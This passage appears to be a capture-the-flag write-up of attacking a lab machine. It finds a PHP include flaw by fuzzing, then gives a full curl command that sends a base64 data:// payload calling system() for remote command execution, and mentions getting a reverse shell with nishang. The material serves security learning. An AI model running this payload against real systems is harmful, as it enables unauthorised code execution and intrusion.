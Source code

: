   

We go back to fuzzing with **wfuzz** in the admin directory, we find a file called "_master.php_":

  

[![](https://blogger.googleusercontent.com/img/a/AVvXsEj8DuhrqV9QbpI4F6s_xuexzHgRz65zISQTlfGxsGEUZG57gSR2e7k5nk5UZXIhcoTzcJU_wT6iYOKymNMEowGaErfROXo3N77bkAGw6S0pcM-ZGkIyQaE7B0lunl8k2SUb4r13uXMTdllJ9aZImiY7wQTKXKi8zu5oZ8DyBypEde7VAEbMjUcdl15DmA=w640-h260)](https://blogger.googleusercontent.com/img/a/AVvXsEj8DuhrqV9QbpI4F6s_xuexzHgRz65zISQTlfGxsGEUZG57gSR2e7k5nk5UZXIhcoTzcJU_wT6iYOKymNMEowGaErfROXo3N77bkAGw6S0pcM-ZGkIyQaE7B0lunl8k2SUb4r13uXMTdllJ9aZImiY7wQTKXKi8zu5oZ8DyBypEde7VAEbMjUcdl15DmA)

  

So we extract the code and we see that it has a functionality over _include_ that would allow to load content of a file.

  

[![](https://blogger.googleusercontent.com/img/a/AVvXsEinMHFiy04GeERFKKhSod4a5LU351b-oT1YZ1YuKdukxLpPONDtyQXKZJXUstV0ujMQG7tBIChoy7cRZGIDtjLjfjg8hWYpimYXGwCOHJViOcCQ3lENREhCdhq6DZJg-DirR7ifgCd4I8IvUFW1K97CEYPgMI7YUvaznnjIhuEqcAHSEm84IwmTPSmGSw=w640-h326)](https://blogger.googleusercontent.com/img/a/AVvXsEinMHFiy04GeERFKKhSod4a5LU351b-oT1YZ1YuKdukxLpPONDtyQXKZJXUstV0ujMQG7tBIChoy7cRZGIDtjLjfjg8hWYpimYXGwCOHJViOcCQ3lENREhCdhq6DZJg-DirR7ifgCd4I8IvUFW1K97CEYPgMI7YUvaznnjIhuEqcAHSEm84IwmTPSmGSw)

  

So we try to take advantage of the wrappers to create a **base64** include and this code to execute the following code

  

[![](https://blogger.googleusercontent.com/img/a/AVvXsEhm-s-Y_Uyi1P6TdmHnyyY88tEVhHeeQDx0FdIho5ZlSzoCyv7QtjlL9fuEdFxRSgcfFZb96WZjHm1qtAwLDJ_rnXNkSjEQSrIX3jw5Tl66lk8jGe1j_IACXLwYIHI94O7keTX2wJt9nbSUFqI0qkZAeRo8kblVYTV9VOytXaTQR6NGXuLEMQHDgCy3ZA=w640-h422)](https://blogger.googleusercontent.com/img/a/AVvXsEhm-s-Y_Uyi1P6TdmHnyyY88tEVhHeeQDx0FdIho5ZlSzoCyv7QtjlL9fuEdFxRSgcfFZb96WZjHm1qtAwLDJ_rnXNkSjEQSrIX3jw5Tl66lk8jGe1j_IACXLwYIHI94O7keTX2wJt9nbSUFqI0qkZAeRo8kblVYTV9VOytXaTQR6NGXuLEMQHDgCy3ZA)

### Code:

     curl -s -k -X 'POST' -H 'Content-Type: application/x-www-form-urlencoded' -b 'PHPSESSID=uacidljb5r1uos72ui2lflttu9' --data-binary "include=data://text/plain;base64,c3lzdGVtKCRfR0VUWydtM24wcyddKTs=" 'https://streamio.htb/admin/?debug=master.php&m3n0s=whoami'  
    

  

### Proof of Concept:

[![](https://blogger.googleusercontent.com/img/a/AVvXsEhqLUl3Ul2-bjCXzUL2OIJAE7Wphcu3sDC9YIU5hFYe2HY3IyjB1j45pJ75v-NzYDNXaNGDo4opBON96UMHY26Y8zqmWEwB_9akkrhVzts4MHftxQt-GN8f6v08sY2KFPj1lN210D5vZTElLSN7LwZgTOuwHEtr28YW9Kc1CBsIeA-PuQiNj4_jy9Pfyw=w640-h176)](https://blogger.googleusercontent.com/img/a/AVvXsEhqLUl3Ul2-bjCXzUL2OIJAE7Wphcu3sDC9YIU5hFYe2HY3IyjB1j45pJ75v-NzYDNXaNGDo4opBON96UMHY26Y8zqmWEwB_9akkrhVzts4MHftxQt-GN8f6v08sY2KFPj1lN210D5vZTElLSN7LwZgTOuwHEtr28YW9Kc1CBsIeA-PuQiNj4_jy9Pfyw)

  

We use the **nishang** script, raise a server with **python** and get a session on the victim machine.

  

[![](https://blogger.googleusercontent.com/img/a/AVvXsEjLw3MNy6uojUYi9emADC0x9feYrJ45P9XkMvl3224ce70-2zpFwR8J182gUArXjjIUVbVN4fuR7vEtfNxcLdMlLuU3KmMPRx0tNM9fSUcs8IXrOhhyz7hRXkHwtHfkPD5wSg_DPEHc3iabFL-98U-hpMDqJsz2D68BIQ5nd9KIQJjs_mD3jXNNAHuJwg=w640-h194)](https://blogger.googleusercontent.com/img/a/AVvXsEjLw3MNy6uojUYi9emADC0x9feYrJ45P9XkMvl3224ce70-2zpFwR8J182gUArXjjIUVbVN4fuR7vEtfNxcLdMlLuU3KmMPRx0tNM9fSUcs8IXrOhhyz7hRXkHwtHfkPD5wSg_DPEHc3iabFL-98U-hpMDqJsz2D68BIQ5nd9KIQJjs_mD3jXNNAHuJwg)
